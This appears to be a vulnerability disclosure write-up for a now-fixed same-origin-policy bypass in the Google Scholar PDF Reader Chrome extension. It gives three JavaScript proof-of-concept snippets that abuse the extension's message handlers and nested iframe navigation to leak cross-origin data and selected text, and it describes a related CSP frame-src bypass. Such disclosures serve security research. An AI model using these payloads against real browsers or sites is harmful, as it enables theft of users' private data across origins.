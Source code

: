 ```yaml
---
title: SOP bypass in Google Scholar PDF Reader (Fixed)
---
```


Webstore: <https://chromewebstore.google.com/detail/google-scholar-pdf-reader/dahenjhkoodjbpjheillcadbppiidmhp>  
Google Scholar PDF Reader is apparently not an offical Google app so was not awarded :( 

# Leak 1 (With compromised renderer)

```js
// In the context of a content script on any website.
// Leaked data must be JSON.

let x = chrome.runtime.connect();
x.postMessage({type: 'fetch', method: 'GET', url: 'https://www.google.com/something.json', id: 1});
x.onMessage.addListener(console.log);
```

# Leak 2 (Without compromised renderer)

```js
// Embed victim PDF from attacker page.
let f=document.createElement('iframe');
f.width=1000;
f.height=1000;
f.src='https://services.google.com/fh/files/misc/bvp_order_form_google_06162020.pdf'; document.body.appendChild(f);

// Navigate nested, nested frame to attacker controlled page with null origin.
// I think this also creates a race condition version
f.contentWindow[0][0].location = 'https://terjanq.me/xss.php?h[Content-Security-Policy]=sandbox%20allow-scripts';

// On that attacker page, Make sure the target page to leak is the same-origin as the pdf https://services.google.com in this case.
onmessage = async (e) => {
 let reader = e.data.body.pipeThrough(new TextDecoderStream()).getReader();
 let result = await reader.read();
 console.log(result.value);
}
parent.parent.postMessage({type: 'fetch', url: 'https://services.google.com/example'}, '*');
```

# Leak 3 (Without compromised renderer)

```js
let f=document.createElement('iframe');
f.width=1000;
f.height=1000;
f.src='https://services.google.com/fh/files/misc/bvp_order_form_google_06162020.pdf';
document.body.appendChild(f);
```
Selected text gets leaked cross-origin.

```js
onmessage=console.log;
f.contentWindow[0].postMessage({type: 'getSelectedText'}, '*');
```

# Attack scenario
An attacker controlled website can bypass SOP if one of the follow is met:

- Attacker wants JSON data and has a compromised renderer bug
- Attacker wants data from a origin that contains a PDF which allows embedding

# frame-src 'self' bypass
Because of an `about:blank` edge case it's possible to navigate a nested, nested 3rd party iframe to it and bypass the child's CSP.
This has resulted in leaking data due to the victim sending sensitive information to a iframe using the `*` scope that can be hijacked via good navigation timings even with the CSP.  
A GitHub issue was opened about this <https://github.com/w3c/webappsec-csp/issues/662>
